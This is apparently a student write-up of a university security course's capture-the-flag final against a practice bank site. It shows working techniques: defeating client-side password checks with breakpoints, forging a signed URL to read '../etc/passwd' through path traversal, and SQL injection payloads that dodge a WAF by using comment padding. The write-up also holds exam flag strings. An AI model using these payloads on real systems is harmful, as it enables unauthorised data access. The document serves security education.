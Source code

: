 - COMP6843FINAL{WHY_SEND_THAT_API_REQUEST_WHEN_I_CAN_VERIFY_PASSWORD_ON_FRONTEND.ejUzMTI3OTk=.iFwCCI0y89I89a61hzjOnQ==}
  - seems like password is validated in the frontend. Inspecting /qos.js indicates to use breakpoints in chrome. Searching the js file, it seems it compares the password entered to an md5 hash. However, the hash is not easily searchable online.
  - As suggested by the hint to use breakpoints, set a breakpoint on the password comparision and change the variable to the hash to get the flag. Change variable `a` to '8f60992665ca6329da8bb3422b576de0'.
  
- COMP6843FINAL{CAN_WE_PORT_APP_STORE_TO_QOS_PLEASE.ejUzMTI3OTk=.VFNNbWzlJ6mJoa35RxhfHQ==}

  - inspecting the qos.js code, there appears to be this snippet:

    ```
    function Rd(a, b) {
        var c = Qd++
          , e = a.toLowerCase().replace(new RegExp(" ".replace(/([-()\[\]{}+?*.$\^|,:#<!\\])/g, "\\$1").replace(/\x08/g, "\\x08"),"g"), "".replace(/\$/g, "$$$$")) + ".png"
          , f = new Ec;
        Gc(f, e);
        Gc(f, "_this_is_my_secret_salt");
        f = Mb(Hc(f));
        return {
            id: c,
            name: a,
            image: "/api/getappimage?f=" + e + "&signature=" + f,
            Y: b
        }
    }
    ```

  - Seems like when accessing an image, it adds a signature to the url. This could lead to a local file inclusion vulnerability, which we can fetch files on the server (but we need a signature to do so).

  - We can simply call the function that the js used to create our own signature
  
    ```
    a = '../etc/passwd'
    e = a.toLowerCase().replace(new RegExp(" ".replace(/([-()\[\]{}+?*.$\^|,:#<!\\])/g, "\\$1").replace(/\x08/g, "\\x08"),"g"), "".replace(/\$/g, "$$$$"))
    f = new Ec;
    Gc(f, e);
    Gc(f, "_this_is_my_secret_salt");
    f = Mb(Hc(f));
    ```
  
  - Executing this in the browser gives us this hash 8842bdd7d41ade58715c424a8c428724
  
  - Access https://qos.quoccabank.com/api/getappimage?f=../etc/passwd&signature=8842bdd7d41ade58715c424a8c428724 to get the flag

**QOS - Handbook**: 1 flag

- COMP6843FINAL{0a89d110-05bd-4da0-a12d-not-a-fake-but-a-real-flag.ejUzMTI3OTk=.ZnyRCh//ibRNPuzWpwY60w==}
  - there exists a waf where the input is replaces spaces characters with NOSPACE. Searching online https://portswigger.net/support/sql-injection-bypassing-common-filters, it appears that we can use comments `/**/ `to bypass the space in queries. However, it appears that the WAF blocks /**/ and replaces it with /BADHACKER/. However, since `/**/` is a comment, we can put anything in it i.e. `/*anything*/` which bypasses the WAF to perform sqli.
  - `'/*j*/UNION/*j*/SELECT/*j*/table_name,table_schema/*j*/from/*j*/information_schema.tables/*j*/#/*j*/` to exfiltrate databases name. There seems to be a courses and memes table.
  - `'/*j*/UNION/*j*/SELECT/*j*/table_name,column_name/*j*/from/*j*/information_schema.columns/*j*/#/*j*/`
  - `'/*j*/UNION/*j*/SELECT/*j*/table_name,column_name/*j*/from/*j*/information_schema.columns/*j*/#/*j*/` to extract column names. There appears to be a meme column for the memes table.
